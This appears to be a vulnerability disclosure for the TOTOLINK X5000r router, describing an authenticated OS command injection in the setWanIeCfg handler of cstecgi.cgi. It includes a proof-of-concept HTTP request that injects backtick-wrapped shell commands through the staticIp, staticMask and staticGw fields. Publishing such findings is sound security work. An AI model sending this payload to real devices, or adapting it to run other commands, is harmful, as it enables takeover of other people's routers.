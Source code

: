 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWanIeCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWanIeCfg` (at 0x411324), binary /cgi-bin/cstecgi.cgi. The parameter `staticIp`,`staticMask`,`staticGw` are passed to 'Uci_set_str' without any check.
![setWanIeCfg](image.png)
Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)
## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 1016
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWanIeCfg", "wanMode": "aa`wvqaaaa\\a^be]aaaaead^]]a\\ad\\aaaaa]aa^aaa`baa]aaaaecaacaaa_aaaaabaa\\ad]\\aaaad`aaedaaa^_aawzqt^aab_^e_aaa^b`aaaaa]auztwaa\\a``aa", "1": ")yzq", "switchOpMode": "aaazzq\\bab__^bc]aa_\\caada_aa^`a^aaeaa`a]aacaa\\`aaeadaaaa^`aa_^a\\baaaaaeaaaab_a\\abaa\\aaa^aad{xqwabaaa`ba\\eaa_aaaaaaa^y{qt_]acaaaa", "0": "wumwzrwuq", "staticIp": "`ls -l`", "staticMask": "`ls -l`", "staticGw": "`ls -l`", "staticMtu": ")&`vzo`", "dhcpMtu": "]\\a\\]aae\\a]a^a^]`eaxuqw\\a^aaaa_]da^aaaaaecadebaaad]aaabaaeca`]a_aaaba]daatzts{a_^ac]daccaaaaaaa_aae^aaaeaaadbaaa_d_aa`^a_aaaaa`aaa]`aea]^aaa`daaa_aaaaadeaaaaae", "pppoeUser": "vzq{{q{zq", "pppoeMtu": "ba]zzqa\\]a\\aa]`^ccaab_`aaaa_a`aaa]aaeaa_aeed\\ba_aca`aeaaa^e_aaaaaaaa`_e]aa`a`e]acacaadaaaaeyzqwacc]aadaaaca\\aa_eaaaawzqracaba__a", "1492": "7twq", "dnsMode": "w~q{zq{zq", "priDns": "a_axxqaabe]b\\ca]ab_aaac`^eaad]]ab\\a_ba^aaea\\]aa^aa]a_ab_dc\\e_aaa`a^aaaaa]_]acbaaaa^_a]aababw|ut_e\\aaaea]a^aaa_aac_c]uzqsaaaaaaaa", "secDns": "ywswwqrxq"}
```
![alt text](image-3.png)
